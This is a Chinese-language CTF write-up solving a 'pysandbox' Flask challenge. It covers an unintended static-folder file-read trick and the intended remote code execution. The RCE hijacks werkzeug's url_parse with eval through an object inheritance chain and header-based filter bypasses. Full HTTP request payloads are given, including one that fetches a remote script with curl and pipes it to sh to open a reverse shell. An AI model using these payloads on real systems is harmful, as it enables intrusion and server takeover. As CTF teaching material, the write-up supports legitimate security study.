 # pysandbox

## 非预期
通过app.static_folder 动态更改静态文件目录，将静态文件目录设为根目录，从而任意文件读,这也是pysandbox的大部分做法
## 预期
预期就是pysandbox2 必须RCE

本题的主要思路就是劫持函数，通过替换某一个函数为eval system等，然后变量外部可控，即可RCE
看了一下大家RCE的做法都不相同，就只贴一下自己当时挖到的方法了

首先要找到一个合适的函数，满足参数可控，最终找到werkzeug.urls.url_parse这个函数，参数就是HTTP包的路径

比如
```
GET /index.php HTTP/1.1
Host: xxxxxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
```
参数就是 '/index.php'
然后是劫持，我们无法输入任何括号和空格，所以无法直接import werkzeug
需要通过一个继承链关系来找到werkzeug这个类
直接拿出tokyowestern 2018年 shrine的找继承链脚本（请看getexp.py)
访问一下，即可在1.txt最下面看到继承链
最终找到是
`request.__class__._get_current_object.__globals__['__loader__'].__class__.__weakref__.__objclass__.contents.__globals__['__loader__'].exec_module.__globals__['_bootstrap_external']._bootstrap.sys.modules['werkzeug.urls']
`
但是发现我们不能输入任何引号，这个考点也考多了，可以通过request的属性进行bypass
最终找到一些外部可控的request属性
request.host
request.content_md5
request.content_encoding
所以请求1
```
POST / HTTP/1.1
Host: __loader__
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: experimentation_subject_id=IjA3OWUxNDU0LTdiNmItNDhmZS05N2VmLWYyY2UyM2RmZDEyMyI%3D--a3effd8812fc6133bcea4317b16268364ab67abb; lang=zh-CN
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-MD5: _bootstrap_external
Content-Encoding: werkzeug.urls
Content-Type: application/x-www-form-urlencoded
Content-Length: 246

cmd=request.__class__._get_current_object.__globals__[request.host].__class__.__weakref__.__objclass__.contents.__globals__[request.host].exec_module.__globals__[request.content_md5]._bootstrap.sys.modules[request.content_encoding].url_parse=eval
```
然后url_parse函数就变成了eval
然后访问第二个请求

```
POST __import__('os').system('curl${IFS}https://shell.now.sh/8.8.8.8:1003|sh') HTTP/1.1
Host: __loader__
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: experimentation_subject_id=IjA3OWUxNDU0LTdiNmItNDhmZS05N2VmLWYyY2UyM2RmZDEyMyI%3D--a3effd8812fc6133bcea4317b16268364ab67abb; lang=zh-CN
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-MD5: _bootstrap_external
Content-Encoding: werkzeug.urls
Content-Type: application/x-www-form-urlencoded
Content-Length: 246

cmd=request.__class__._get_current_object.__globals__[request.host].__class__.__weakref__.__objclass__.contents.__globals__[request.host].exec_module.__globals__[request.content_md5]._bootstrap.sys.modules[request.content_encoding].url_parse=eval
```
shell就弹回来了